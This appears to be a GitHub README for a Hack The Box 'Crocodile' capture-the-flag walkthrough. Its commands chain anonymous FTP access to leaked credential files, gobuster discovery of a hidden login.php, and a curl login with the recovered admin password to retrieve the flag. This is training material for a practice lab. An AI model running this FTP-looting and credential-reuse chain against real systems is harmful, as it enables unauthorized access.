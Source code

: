 # HTB “Crocodile” Exploit Walkthrough

Chain an anonymous FTP credential leak into a hidden PHP login panel to retrieve the flag on HTB’s Crocodile box.

## Quick Start

```bash
git clone https://github.com/keyfive5/obsidiansignal-htb-crocodile.git
cd obsidiansignal-htb-crocodile
bash scripts/enum-crocodile.sh <TARGET_IP>
```

## Prerequisites

- **ftp** client  
- **gobuster**  
- **curl**  
- **Bash** shell  
- HTB VPN connection  

## Repository Structure

```
obsidiansignal-htb-crocodile/
├── README.md
├── writeup/
│   ├── lab-writeup.md
│   └── lab-report.pdf
├── scripts/
│   └── enum-crocodile.sh
├── screenshots/
│   ├── nmap-ftp-http.png
│   ├── ftp-anon.png
│   ├── gobuster-login.png
│   └── admin-flag.png
└── articles/
    └── crocodile-devto.md
```

## Lab Steps

1. **FTP Enumeration**  
   ```bash
   nmap -sC -sV -p21,80 <IP>
   ftp <IP>  
   # login: anonymous
   dir
   get allowed.userlist
   get allowed.userlist.passwd
   ```
2. **Extract Credentials**  
   ```bash
   cat allowed.userlist
   cat allowed.userlist.passwd
   # e.g. admin / Supersecretpassword1
   ```
3. **Discover Hidden Pages**  
   ```bash
   gobuster dir      --url http://<IP>/      --wordlist /usr/share/wordlists/dirb/common.txt      -x php,html      -o screenshots/gobuster-login.txt
   ```
4. **Admin Login & Flag Retrieval**  
   ```bash
   curl -d "username=admin&password=Supersecretpassword1"         http://<IP>/login.php -o screenshots/admin-flag.html
   ```
   View `screenshots/admin-flag.png` for the captured flag.

## Flag

The flag is displayed at the top of the admin panel upon successful login.

## Automation Script

See `scripts/enum-crocodile.sh` for a fully automated enumeration.

## Screenshots

- **nmap-ftp-http.png** – Nmap output showing FTP (21) and HTTP (80) open.  
- **ftp-anon.png** – Demonstration of anonymous FTP login and file download.  
- **gobuster-login.png** – Gobuster discovering `login.php`.  
- **admin-flag.png** – Admin panel screenshot with flag visible.

---

*Happy hacking!*  
